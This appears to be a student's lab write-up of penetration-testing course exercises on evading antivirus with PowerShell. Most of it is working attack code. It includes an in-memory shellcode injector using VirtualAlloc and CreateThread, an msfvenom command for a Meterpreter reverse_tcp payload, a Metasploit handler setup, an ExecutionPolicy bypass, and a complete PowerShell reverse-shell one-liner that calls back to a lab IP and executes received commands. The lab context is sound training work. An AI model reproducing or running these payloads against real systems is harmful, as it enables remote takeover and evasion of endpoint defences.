




### 17.3.3.2 Exercises
#### 1. Review the code from the PowerShell script and ensure that you have a basic understanding of how it works.

```powershell
# Import functions needed for exploit from DLL's
$code = '
# This function allows you to allocate memory
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
# This function allows you to create an execution thread
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
# This function allows you to write arbitrary data to memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

# Insert shellcode here, formatted for Powershell
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

# Allocate memory block
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

# Write shellcode to allocated memory block
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

# Execute in-memory shellcode in separate thread
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

#### 2. Get a meterpreter shell back to your Kali Linux machine using PowerShell.

- Generated shellcode for Meterpreter Reverse Shell

  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f powershell
  ```

- Inserted shellcode into script above at the `[Byte[]]$sc` variable and transferred the script to Windows
  

- Started Meterpreter handler on Kali
  
  ```bash
  sfconsole -x "use exploit/multi/handler; set RHOST 192.168.216.10; set PAYLOAD w
  indows/meterpreter/reverse_tcp; set LHOST 192.168.119.216; set LPORT 8000"
  ```
  
  
  
- Ran script on Windows, bypassing ExecutionPolicy
  
  ```powershell
  powershell -ExecutionPolicy Bypass -File .\meminjc.ps1
  ```
  
- Sweet Meterpreter prompt
  


#### 3. Attempt to get a reverse shell using a PowerShell one-liner rather than a script.

- Started a netcat listener on Kali

- Used this one-liner from an earlier exercise:

  ```powershell
  powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.216',8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

- Reverse shell obtained:
  

